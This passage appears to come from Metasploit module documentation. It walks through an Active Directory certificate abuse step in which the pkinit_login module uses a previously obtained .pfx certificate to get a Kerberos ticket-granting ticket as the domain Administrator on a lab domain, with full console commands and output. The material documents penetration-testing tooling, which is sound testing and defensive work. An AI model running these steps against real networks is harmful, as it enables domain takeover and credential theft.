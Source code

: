 We can then use the `pkinit_login` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator` domain administrator:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > show options

Module options (auxiliary/admin/kerberos/pkinit_login):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CERT_FILE                   yes       File containing a certificate (*.pfx) to authenticate with
   CERT_PASS                   no        Password for the Certificate file
   DOMAIN                      no        Override domain in certificate file
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/
                                         wiki/Using-Metasploit
   RPORT      88               yes       The target port
   Timeout    10               yes       The TCP timeout to establish connection and read data
   USERNAME                    no        Override username in certificate file


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216143858_default_172.30.239.85_mit.kerberos.cca_391796.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                                     path
----           -------  ----                 ----             -------                   ----                                                                     ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: administrator, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216143858_default_172.30.239.85_mit.kerberos.cca_391796.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```
